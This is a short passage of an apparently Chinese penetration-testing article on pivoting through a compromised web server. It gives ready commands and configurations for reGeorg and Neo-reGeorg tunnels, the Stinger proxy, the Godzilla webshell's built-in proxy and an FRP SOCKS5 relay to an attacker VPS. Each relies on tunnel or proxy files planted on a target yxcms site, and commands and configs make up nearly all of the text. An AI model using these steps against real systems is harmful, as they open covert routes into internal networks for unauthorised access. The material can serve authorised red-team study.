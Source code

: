   
1. 使用ython   
reGeorgSocksProxy.py  
 -p 8080 -u   
http://upload.sensepost.net:8080/tunnel/tunnel.jsp  
  
1. 使用python   
neoreg.py  
 -u   
http://192.168.163.138/www.yxcms6.com/protected/apps/default/view/default/tunnel.php  
 --proxy socks5://  
10.1.1.1:8888  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8SgibicL07UGgU7aibEGPo22tToBibjoxIsuibFr06joJkkvI9zXm8qibhmhiaQ/640?wx_fmt=png&from=appmsg "")  
  
### （二）毒刺代理  
  
  
- **windows 服务端**  
：start D:/XXX/stinger_server.exe   
0.0.0.0  
  
- **客户端（vps）**  
：./stinger_client -w   
http://192.168.163.138/www.yxcms6.com/protected/apps/default/view/default/proxy.php  
 -l   
127.0.0.1  
 -p 60000  
  
### （三）哥斯拉内置代理  
  
  
直接使用哥斯拉内置代理功能。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/veA9QmcJk5mCEM3ulgybYUA23my4Vf8Sn0KsFMJxRZibFFuZawhhL3VwNSuQVJ2ZhleTbZPnkznic8ocKK5bzfFw/640?wx_fmt=png&from=appmsg "")  
  
### （四）FRP 代理  
  
- **VPS 服务端配置**  

```
[common]
bind_port = 57000
token = 123qwe    
heartbeat_timeout = 90  
max_pool_count = 5
```

- **webshell 客户端配置**  

```
[common]
server_addr = 1.1.1.1
server_port = 57000
token = 123qwe
pool_count = 5
protocol = tcp
health_check_type = tcp
health_check_interval_s = 100
[socks_test]
remote_port = 10000  
plugin = socks5
plugin_user = admin
plugin_passwd = password
use_encryption = true
use_compression = true
```
